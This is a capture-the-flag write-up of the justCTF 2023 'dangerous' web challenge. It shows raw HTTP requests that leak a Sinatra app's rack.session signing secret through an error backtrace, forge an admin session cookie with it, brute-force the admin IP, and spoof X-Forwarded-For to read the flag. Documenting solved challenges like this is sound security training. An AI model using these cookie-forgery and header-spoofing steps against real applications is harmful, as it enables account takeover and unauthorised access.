


---
Category:
  - Web
Difficulty: Easy
Platform: justCTF 2023
Retired: true
Status: 3. Complete
tags:
  - ruby
  - forging-cookies
  - rack.session
  - sinatra
---

>[!quote]
>My friend told me there's a secret page on this forum, but it's only for administrators.

# Setup

- Challenge: http://dangerous.web.jctf.pro
- Source code: https://s3.cdn.justctf.team/bd39a8d7-ad35-4fce-a0a9-51fa434ca14f/dangerous.zip

# Short summary

We have a pre-production environment that can be configured at will. The application uses `sinatra` to manage the `rack.session` cookie, which signs session cookie with a **random secret generated at every restart**. Because the application do not validate input and discloses ENV information as well as back-traces, it is possible to leak the secret value, patch the local environment and generate a valid signed cookie that can be reused in production.

# Exploitation

## Leaking the signing secret

Request to `/2` without any content
```http
POST /2 HTTP/1.1
Host: dangerous.web.jctf.pro
Content-Length: 8
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://dangerous.web.jctf.pro
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.91 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://dangerous.web.jctf.pro/2
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: rack.session=VUQ%2FOH9Wiww2IDmwRsRhrwEJE%2B1V0SLfzliAjlcaxPw6bN6pMDCTEN1NMkFlBaqIhrNpmOZ5zHL6uJjvcwrNb1I%2FJ4lwtvVeiSRB0DOoSlmAScRr7MmItlckRXlSQJrpt2%2BNuaNRs2h%2BUpjLMfuOO%2Fmw%2Fs%2FZHe2p41hqGYeAOmjGQo4yv9K7tOMgQofTeJlEx%2Ba30ciAcHQF4EbcYSSeKJR4l1EhTB%2FryzTnTyhcLJxIbXLN04p8QPRIonsBxZpr0iZtSF1bzi7lJnnXFQW%2FtB2XzbceOWxNAQgrwOph1OoDawVgkFEBYiVZrum8WRa4m9oRtsg8XAA4pZnE1wgZVniRonwfs1paqGxL0TpbsfwHIMf1AOhI%2FhFW6uw9vuNZkcXnbXqniGb9zR9TiBiDRNvOfXefYZg%3D--jJH3pbRd5twoxdHV--YHlFrNHPVMrA8P4kkQkXww%3D%3D
Connection: close

content=
```

Server leaking the secret:


## Forging an arbitrary rack.session cookie

Edited `config.json` in order to include the `janitor` user.

*config.json*
```json
{
	"mods": [
		{
			"username": "janitor",
			"password": "testpasswd123",
			"allowed_ip": "127.0.0.1"
		}
	],
	"flag": "testflag"
}
```

Hardcoded the production `session_secret` in order to forge arbitrary valid cookies

*dangerous.rb*
```rb
config = JSON.parse(File.read("./config.json"))
set :bind, '0.0.0.0'
enable :sessions

set :erb, :escape_html => true

con = SQLite3::Database.new "sqlite.db"

...

set :session_secret, 'a9316e61bc75029d52f915823d7bb628a4adae8b174bce89fd38ec4c7fb925a07e2ccbc01572b9fdce56502ef5d02609e5194a5ddd649ff349a206002e96a99d'

...
```

Logged in from localhost and forged a valid cookie:
```http
POST /login HTTP/1.1
Host: 127.0.0.1
Content-Length: 39
Content-Type: application/x-www-form-urlencoded
Cookie: rack.session=aw%2FgPEFvnPwF6ldIHlDzBMoX%2FFOmyeSk8%2BNNazXFQd6tp7YENRXqayWaPTlGOzF4GUFmaYBykdlfmhCEMKFD%2BqV%2BOQgjDDmomIZr9VZx7LAJdbdehW9Yx2tilkVvVTsfHeVtie7JFreuVBgj%2BeVopRorAodBgua2kvKKKmH6W3lS%2B4HHEpaFM1YySfdp4kzg%2BXDBf1eJ89E8UR40lQj5R07AQ3jiZJXzkOuv0Hu909UPTfhXOhzsbBKrj4HxDElRavjOWnPwsk5OUS78NJjpN0xFwvmFxkMBdYMz3JDOiKSIieNofFGo1skuumw2Apko0St5wNWwDPdvE9tnuOA86VbU4qLXUi%2FGHcNIMQbEjmZLcreBow6bBBXmE748ITrzMbD1h%2BAoVStOkNbKpIe2Owo5nkUzTSk%3D--P8VvR%2BNkc4om6KKR--xMJaRQ%2BibPrCE6yWQ%2FkPrg%3D%3D
Connection: close

username=janitor&password=testpasswd123
```

*Response*
```http
HTTP/1.1 302 Found
...
Set-Cookie: rack.session=YvDxLeuQsSjDGMq0SuYpbcsvZ%2B99T3uF9qSCYE5gVCRpm%2By63HyDKVzKG5csRUYs2ALwr3u2ckdvMCxwvHF%2BgUuM6MWhOKdcenL6UFWvdALOH7pr6PwDeJemlK2Em%2BMq4zqGeZn1s2Qbqa0rHQwWR3541Jfer03InPFXjLxQxcEgoxVLzmF9mAlFjcdXj%2Fn5svv189ILi8Wbns9RBOeOVjXDRiitBPH7aGV8eyPy3PRd9LK2GV%2BeOmaEQWkOHV3awXrne1X96GeL1yoYHWL46AzQbompFiKNcisuhkBRQhocjPWvioMenWOHwCzTi3POs%2Bt4KyjvSSGOCb4%2BUcAjP%2FHqXOlp9Ak9I1j%2FHih3FGAkDQiKncg%3D--zGDFj9ThLxNDUQ7e--%2BEumPrEKXNtC9P3KxVZz3Q%3D%3D; path=/; HttpOnly
```

## Bypassing IP filtering

The application blocks requests coming from IPs different to the one specified in the configuration file.

Request
```http
GET /flag HTTP/1.1
Host: dangerous.web.jctf.pro
Cookie: rack.session=4RgRk%2F24mKb7qhuf4rRXuOrP3Eag0gVn4YVZU7ODG%2BYILKF4hs%2ByIJRbgOVWZQm6VprojFNTVFq6%2F%2F6qRK%2F4vs3UgfMI9%2B1Yz9yVxslhhNl%2FzkkQcodO15dvWO5QNNNU%2B8K3gajMSEUlcIEmlAoVwnol%2Bf4Yf8b%2FY%2FmlJ9O2nWXekRI1ufB4vJp9exGS39cRjA%2BkxtNZY6k9SiiVY7zEcwR8E%2BqCR6QJv2kqE3AcsiuXtVcsczxr9t2LWSlPZpTwQ27smRopLqzJupcBcvh3uN2qzr1i2X54ic2GvCP335s5AzUCQIELi7KJuNaelPf8g9WrqyKFLVQRe5tA7fPuEkMU3kAK%2BYJJ3fz1kNN7nw3WjShROCBslB8nqWrto8E1IUNqm2CtD4umAaEC9qejDPAquiq5PExjnj4t1SxSgHL9EUmwCXV9KS%2BKOcS2bI8fNGoa2A%3D%3D--NHyLaPg3hiqFhSQk--1ORHWubELdOlpoWWazPyfA%3D%3D
Connection: close
```

Response
```http
HTTP/1.1 403 Forbidden
...
You are connecting from untrusted IP!
```

We can brute-force the admin IP comparing the user's color with every IP, eventually discovering 10.24.170.69:
```erb
# === temporarily disabled ===
  # con.execute("INSERT INTO threads (id, content, ip, username)
  #           VALUES (?, ?, ?, ?)", [nil, params[:content], request.ip, username])
  redirect to("/#{con.execute('SELECT last_insert_rowid()')[0][0]}")
...
<% @replies.each do |reply| %>
		<div style="padding-bottom: 1rem">
			<% user_color = Digest::SHA256.hexdigest(reply[2] + @id).slice(0, 6) %>
			<div style="color: #<%= user_color %>;">
				<%= user_color %>
			<% if reply[3] %>
				<span style="color: #ff0000;">##Admin:<%= reply[3] %>##</span>
			<% end %>
			</div>
			<div><%= reply[1] %></div>
		</div>
	<% end %>
```



We can send the same request using the `X-Forwarded-For` header to spoof our IP and obtain the flag.

*request*
```http
GET /flag HTTP/1.1
Host: dangerous.web.jctf.pro
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.91 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: rack.session=4RgRk%2F24mKb7qhuf4rRXuOrP3Eag0gVn4YVZU7ODG%2BYILKF4hs%2ByIJRbgOVWZQm6VprojFNTVFq6%2F%2F6qRK%2F4vs3UgfMI9%2B1Yz9yVxslhhNl%2FzkkQcodO15dvWO5QNNNU%2B8K3gajMSEUlcIEmlAoVwnol%2Bf4Yf8b%2FY%2FmlJ9O2nWXekRI1ufB4vJp9exGS39cRjA%2BkxtNZY6k9SiiVY7zEcwR8E%2BqCR6QJv2kqE3AcsiuXtVcsczxr9t2LWSlPZpTwQ27smRopLqzJupcBcvh3uN2qzr1i2X54ic2GvCP335s5AzUCQIELi7KJuNaelPf8g9WrqyKFLVQRe5tA7fPuEkMU3kAK%2BYJJ3fz1kNN7nw3WjShROCBslB8nqWrto8E1IUNqm2CtD4umAaEC9qejDPAquiq5PExjnj4t1SxSgHL9EUmwCXV9KS%2BKOcS2bI8fNGoa2A%3D%3D--NHyLaPg3hiqFhSQk--1ORHWubELdOlpoWWazPyfA%3D%3D
X-Forwarded-For: 10.24.170.69
Connection: close
```

*response*
```http
HTTP/1.1 200 OK
Server: nginx/1.14.2
Date: Sat, 03 Jun 2023 18:09:40 GMT
Content-Type: text/html;charset=utf-8
Connection: close
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Set-Cookie: rack.session=kHRUXQqIF%2FdOrnilQe%2BIDOKezsEQupqwS7sEbPWLfwIES6iyQqkFAcrP%2F73t8Ja0umhfMb1eC39IvCC4q800Z%2BIEDXTQDHbH4ugDWIj0dOwSTlCf%2B4qRv1cPqjbOSBqAQJqiIkBrMv8xvnU8D2ZpiDbyWzi1nQOK8a5c1SpLNiRFB%2FIUXuDP7%2FR8J4o9U%2FY9SCtvrR4uRYKXYJEnk2Aj4aqG7aySnl9TZdmu0tKrR9BVznGibNsu%2Fk2b0qNIUkL6kc0CFpZYlS0Om%2B3OjFDOyJVX%2BwBj8XcNb4ZXyoKt4qlrwpRJa45UF9bVXzlFcptk5Tn5lhDtKyctJBAZBr2sP9jQplacmmmc15makBwEGW1fAfKUsqBE8ZMffO09Ho%2FruzSITfGoCTh3hO5Sn%2BEXdJBG2sZRIekOQ9BwvL51pHeTdXgsN4f1zzUozPnryvxPzTKTxQ%3D%3D--SPD6v0EWem%2FlAXnH--lYXKiVv9sarF2LRBQ1EcBg%3D%3D; path=/; HttpOnly
Content-Length: 43

justCTF{1_th1nk_4l1ce_R4bb1t_m1ght_4_4_d0g}
```

# Flag

>[!success] Flag
> `justCTF{1_th1nk_4l1ce_R4bb1t_m1ght_4_4_d0g}`
